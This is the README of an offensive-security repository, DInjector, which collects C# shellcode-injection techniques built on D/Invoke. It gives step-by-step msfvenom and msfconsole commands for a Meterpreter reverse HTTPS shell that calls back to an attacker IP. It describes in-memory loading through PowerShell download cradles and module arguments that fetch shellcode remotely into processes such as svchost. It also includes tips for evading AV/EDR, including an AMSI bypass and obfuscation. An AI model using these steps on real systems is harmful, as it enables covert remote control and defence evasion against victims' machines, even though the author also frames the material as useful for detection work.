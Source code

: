 DInjector
==========

```
     (    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

This repository is an accumulation of my code snippets for various **shellcode injection** techniques using fantastic [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) API by @TheWover and @FuzzySecurity.

Based on my testings the DInvoke NuGet [package](https://www.nuget.org/packages/DInvoke/) itself is being flagged by many commercial AV/EDR solutions when incuded as an embedded resource via [Costura.Fody](https://www.nuget.org/packages/Costura.Fody/) (or similar approaches), so I recommend to modify it and include from [source](https://github.com/TheWover/DInvoke) to achieve better opsec.

DInjector is not intended to be used for AV/EDR evasion out-of-the-box, but provides a bunch of weaponized examples to improve your generic tradecraft during the engagement and/or sharpen your detection rules to prevent this sort of shellcode execution.

Some tips how the driver [Program](/DInjector/Program.cs) can be enhanced (leaving it as an exercise for the reader):

* Use encrypted payloads which can be invoked from a URL or passed in Base64 as an argument.
* Add built-in AMSI bypass (a great example from @rasta-mouse is [here](https://rastamouse.me/memory-patching-amsi-bypass/)).
* Add sandbox detection methods.
* Protect the resulting assembly with [ConfuserEx](https://github.com/yck1509/ConfuserEx) or similar tools.

## Usage

Here is a basic example to get started.

1. Compile the project in Visual Studio.
2. Generate a shellcode for your favourite C2:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
```

3. Serve `shellcode.bin` and start C2 listener:

```console
~$ sudo python3 -m http.server 80
~$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost 10.10.13.37; set lport 443; set EXITFUNC thread; run"
```

4. Use one of the PowerShell download [cradles](/Cradles) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

I **do not** recommend putting the assembly on disk because it will very likely be flagged.

## Modules

**Note:** opsec safe considerations are based on my personal expirience and some testings along the way.

### [FunctionPointer](/DInjector/Modules/FunctionPointer.cs)

```yaml
module_name: 'functionpointer'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Allocates a RWX memory region, copies the shellcode into it
  and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
opsec_safe: false
references:
  - 'http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/'
  - 'https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis'
  - 'https://www.fergonez.net/post/shellcode-csharp'
```

### [FunctionPointerV2](/DInjector/Modules/FunctionPointerV2.cs)

```yaml
module_name: 'functionpointerv2'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Sets RWX on a byte array and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtProtectVirtualMemory'
opsec_safe: false
references:
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-1/'
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-2/'
  - 'https://github.com/jhalon/SharpCall/blob/master/Syscalls.cs'
```

### [CurrentThread](/DInjector/Modules/CurrentThread.cs)

```yaml
module_name: 'currentthread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Injects shellcode into current process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtProtectVirtualMemory'
    3: 'NtCreateThreadEx'
    4: 'NtWaitForSingleObject'
opsec_safe: false
references:
  - 'https://github.com/XingYun-Cloud/D-Invoke-syscall/blob/main/Program.cs'
```

### [RemoteThread](/DInjector/Modules/RemoteThread.cs)

```yaml
module_name: 'remotethread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /pid:1337
description: |
  Injects shellcode into an existing remote process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtOpenProcess'
    2: 'NtAllocateVirtualMemory'
    3: 'NtWriteVirtualMemory'
    4: 'NtProtectVirtualMemory'
    5: 'NtCreateThreadEx'
opsec_safe: false
references:
  - 'https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/SharpImpersonation/Shellcode.cs'
```

### [RemoteThreadAPC](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadapc'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtQueueApcThread.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtOpenThread'
    5: 'NtQueueApcThread'
    6: 'NtAlertResumeThread'
opsec_safe: true
references:
  - 'https://rastamouse.me/exploring-process-injection-opsec-part-2/'
  - 'https://gist.github.com/jfmaes/944991c40fb34625cf72fd33df1682c0'
```

### [RemoteThreadContext](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadcontext'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via SetThreadContext.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtCreateThreadEx'
    5: 'GetThreadContext'
    6: 'SetThreadContext'
    7: 'NtResumeThread'
opsec_safe: true
references:
  - 'https://blog.xpnsec.com/undersanding-and-evading-get-injectedthread/'
  - 'https://github.com/djhohnstein/CSharpSetThreadContext/blob/master/Runner/Program.cs'
```

### [ProcessHollow](/DInjector/Modules/ProcessHollow.cs)

```yaml
module_name: 'processhollow'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtQueueApcThread.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtQueryInformationProcess'
    2: 'NtReadVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtWriteVirtualMemory'
    5: 'NtResumeThread'
opsec_safe: false
references:
  - 'https://github.com/CCob/SharpBlock/blob/master/Program.cs'
```

## Credits

* @TheWover and @FuzzySecurity for their awesome [DInvoke](https://github.com/TheWover/DInvoke) project.
* All those great researchers mentioned in the modules references above.
